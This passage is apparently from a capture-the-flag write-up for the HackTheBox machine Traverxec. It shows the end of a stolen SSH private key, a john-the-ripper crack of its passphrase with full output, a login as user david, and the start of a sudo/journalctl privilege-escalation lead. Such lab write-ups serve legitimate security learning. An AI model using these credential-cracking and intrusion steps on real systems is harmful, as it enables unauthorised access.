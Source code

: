     VeYniFU/TGnRKDYLQH2x0ni1tBf0wKOLERY0CbGDcquzRoWjAmTN/PV2VbEKKD/w
    -----END RSA PRIVATE KEY-----

We then try to connect to the box using the key with david account but the SSH
key is password protected. We use ssh2john to get a crackable hash and run john
with the rockyou dictionary on it.

    ::text
    python /usr/bin/ssh2john id_rsa > id_rsa.hash
    john  id_rsa.hash -w=~/tools/password_lists/rockyou.txt
    Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
    Use the "--format=ssh-opencl" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Will run 4 OpenMP threads
    Note: This format may emit false positives, so it will keep trying even after
    finding a possible candidate.
    Press 'q' or Ctrl-C to abort, almost any other key for status
    hunter           (id_rsa)
    Warning: Only 1 candidate left, minimum 4 needed for performance.
    1g 0:00:00:04 DONE (2019-11-27 15:12) 0.2061g/s 2957Kp/s 2957Kc/s 2957KC/s *7¡Vamos!
    Session completed

We then connect to the box as david using the SSH key and its `hunter` password.
And we get the user flag.

    :::text
    # ssh david@10.10.10.165 -i id_rsa
    Enter passphrase for key 'id_rsa':
    Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
    Last login: Wed Nov 27 05:55:05 2019 from 10.10.14.25
    david@traverxec:~$ cat user.txt
    7db0b<redacted>

# Root part

When trying the command `sudo -l` we are prompt for a password. Neither of the
cracked password (`hunter` and `Nowonly4me`) works.

In the david home folder we find a `bin` folder containing a bash program.

    :::bash
    #!/bin/bash

    cat /home/david/bin/server-stats.head
    echo "Load: `/usr/bin/uptime`"
    echo " "
    echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
    echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
    echo " "
    echo "Last 5 journal log lines:"
    /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
